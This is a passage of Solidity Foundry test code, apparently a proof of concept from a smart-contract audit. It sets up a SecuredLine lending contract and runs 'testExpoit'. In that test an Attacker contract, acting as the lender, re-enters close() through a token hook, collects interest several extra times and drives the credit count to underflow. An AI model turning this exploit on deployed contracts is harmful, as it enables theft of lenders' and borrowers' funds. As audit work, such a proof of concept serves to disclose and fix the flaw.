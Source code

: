 ```
        arbiter = address(this);
        supportedToken1 = new RevenueTokenWithHook();
        supportedToken2 = new RevenueToken();
        unsupportedToken = new RevenueToken();

        spigot = new Spigot(arbiter, borrower, borrower);
        oracle = new SimpleOracle(address(supportedToken1), address(supportedToken2));

        escrow = new Escrow(minCollateralRatio, address(oracle), arbiter, borrower);

        line = new SecuredLine(
          address(oracle),
          arbiter,
          borrower,
          payable(address(0)),
          address(spigot),
          address(escrow),
          ONE_YEAR,
          0
        );
        lender = address(new Attacker(address(line), borrower, address(supportedToken1)));
        assertEq(supportedToken1.registry(lender), true);
        
        escrow.updateLine(address(line));
        spigot.updateOwner(address(line));
        
        assertEq(uint(line.init()), uint(LineLib.STATUS.ACTIVE));

        _mintAndApprove();
        escrow.enableCollateral( address(supportedToken1));
        escrow.enableCollateral( address(supportedToken2));
   
        vm.startPrank(borrower);
        escrow.addCollateral(1 ether, address(supportedToken2));
        vm.stopPrank();
    }

    function testExpoit() public {
        _addCredit(address(supportedToken1), 1 ether);
        bytes32 id = line.ids(0);
        vm.warp(line.deadline() - ttl / 2);
        line.accrueInterest();
        (uint256 deposit, , uint256 interestAccrued, , , , ) = line.credits(id);
        uint256 lenderBalanceBefore = supportedToken1.balanceOf(lender);
        uint256 lenderBalanceAfterExpected = lenderBalanceBefore + deposit + interestAccrued;

        Attacker(lender).enableAttack();
        hoax(lender);
        line.close(id);
        vm.stopPrank();
        uint256 lenderBalanceAfter = supportedToken1.balanceOf(lender);
        assertEq(lenderBalanceAfter, lenderBalanceAfterExpected + interestAccrued * ATTACK_COUNT);
        (uint256 count,) = line.counts();
        assertEq(count, MAX_INT - ATTACK_COUNT + 1);
    }


    function _mintAndApprove() internal {
        deal(lender, mintAmount);

        supportedToken1.mint(borrower, mintAmount);
        supportedToken1.mint(lender, mintAmount);
        supportedToken2.mint(borrower, mintAmount);
```